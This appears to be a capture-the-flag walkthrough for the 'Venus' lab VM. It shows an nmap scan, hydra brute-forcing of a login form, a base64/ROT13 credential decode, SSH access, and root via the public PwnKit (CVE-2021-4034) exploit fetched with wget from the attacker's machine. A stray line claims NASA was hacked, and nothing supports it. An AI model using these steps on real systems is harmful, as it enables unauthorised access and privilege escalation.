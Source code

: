 ```yaml
---
layout: post
title: Venus
date: 27-05-2025
categories: [Medium]
tags: [CVE]
image: "https://images.theconversation.com/files/404401/original/file-20210604-13-128m0ja.jpg"
---
```

>Nasa have been hacked and this was reveled about nasa
{: .prompt-tip }


## Scanning
```
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:30 (0:00:06 remaining)
Nmap scan report for 192.168.56.107
Host is up (0.00022s latency).
Not shown: 987 filtered tcp ports (no-response), 11 filtered tcp ports (admin-prohibited)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   256 b0:3e:1c:68:4a:31:32:77:53:e3:10:89:d6:29:78:50 (ECDSA)
|_  256 fd:b4:20:d0:d8:da:02:67:a4:a5:48:f3:46:e2:b9:0f (ED25519)
8080/tcp open  http    WSGIServer 0.2 (Python 3.9.5)
|_http-title: Venus Monitoring Login
MAC Address: 08:00:27:18:54:5E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds

```
![image](https://github.com/user-attachments/assets/c2107323-86e9-4416-a312-14c25cb2180d)


## Enumartion 

By using the port 8080 running the http-proxy server, finsing the posible users in the system
Using the user guest:guest we can see in the reques there is the vlidation auth exncripted with base64, so lets try to fins the other users in the sys.
>This it need more partient.
{: .prompt-tip }

```
-----------------------------------------------------------------------------------------------------------------------
~/Desktop/redteam/hack/vernus » hydra -L /usr/share/wordlists/rockyou.txt -p guest -s 8080 192.168.56.107 http-post-form "/:username=^USER^&password=^PASS^:Invalid username." 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 22:37:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking http-post-form://192.168.56.107:8080/:username=^USER^&password=^PASS^:Invalid username.
[STATUS] 4328.00 tries/min, 4328 tries in 00:01h, 14340071 to do in 55:14h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: venus   password: guest
[STATUS] 4356.33 tries/min, 13069 tries in 00:03h, 14331330 to do in 54:50h, 16 active
[STATUS] 4360.86 tries/min, 30526 tries in 00:07h, 14313873 to do in 54:43h, 16 active
[STATUS] 4380.27 tries/min, 65704 tries in 00:15h, 14278695 to do in 54:20h, 16 active
[8080][http-post-form] host: 192.168.56.107   login: magellan   password: guest
[8080][http-post-form] host: 192.168.56.107   login: guest   password: guest
[STATUS] 4370.16 tries/min, 135475 tries in 00:31h, 14208924 to do in 54:12h, 16 active





```
## Initial access
i found the vulneurability is in the page '/' that refrect the authentic cypher on the client side req
so i have to use the credentials of the uses i have get and see if i can manage to get the access to the target, so i have to convert the user and the same pass into base64 and find the loocation were there is the out put break in the system.
finslly i get this and it was encoded of user magellan
bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==

decrep using base64 and try to identfy the ype of cypher in the user name it was ROT13 then i used the credentials see the picture bellow

![Screenshot From 2025-05-26 23-10-50](https://github.com/user-attachments/assets/e4772143-8a60-4611-9c26-7d67b15249a7)


![Screenshot From 2025-05-26 23-08-55](https://github.com/user-attachments/assets/8aa2a572-3d56-456a-8d3b-1d60eedbfb92)


```
~/Desktop/redteam/hack/vernus » ssh magellan@192.168.56.107                                 255 ↵ cyberkid@cyberkiddle
magellan@192.168.56.107's password: 
Last failed login: Mon May 26 21:05:09 BST 2025 from 192.168.56.1 on ssh:notty
There was 1 failed login attempt since the last successful login.
[magellan@venus ~]$ 




```
Weldone if you have reached in this stage your very awesome lets get the root account.

## Privilage esc
This exploit it need very well understanding in payloads and mashine learning but cool just simple to get ride of
https://codeload.github.com/berdav/CVE-2021-4034/zip/main
This is the link to the exploit have nice time exploire how to use th exploit.

>Finding more strength to the user.
{: .prompt-tip }

```

[magellan@venus tmp]$ mkdir lilly
[magellan@venus tmp]$ cd lilly/
[magellan@venus lilly]$ wget http://192.168.56.1:8000/CVE-2021-4034-main.zip
--2025-05-26 23:25:44--  http://192.168.56.1:8000/CVE-2021-4034-main.zip
Connecting to 192.168.56.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: ‘CVE-2021-4034-main.zip’

CVE-2021-4034-main.zip        100%[================================================>]   6.31K  --.-KB/s    in 0s      

2025-05-26 23:25:44 (78.3 MB/s) - ‘CVE-2021-4034-main.zip’ saved [6457/6457]

[magellan@venus lilly]$ ls
CVE-2021-4034-main.zip
[magellan@venus lilly]$ unzip CVE-2021-4034-main.zip 
Archive:  CVE-2021-4034-main.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
[magellan@venus lilly]$ cd CVE-2021-4034-main/
[magellan@venus CVE-2021-4034-main]$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
[magellan@venus CVE-2021-4034-main]$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
[magellan@venus CVE-2021-4034-main]$ ls
'GCONV_PATH=.'   Makefile    cve-2021-4034     cve-2021-4034.sh   gconv-modules   pwnkit.so
 LICENSE         README.md   cve-2021-4034.c   dry-run            pwnkit.c
[magellan@venus CVE-2021-4034-main]$ ./cve-2021-4034
sh-5.1# whoami
root
sh-5.1# 



```
![image](https://github.com/user-attachments/assets/a3d4c4cc-0655-4d1f-bcba-8b41b6a6d7db)

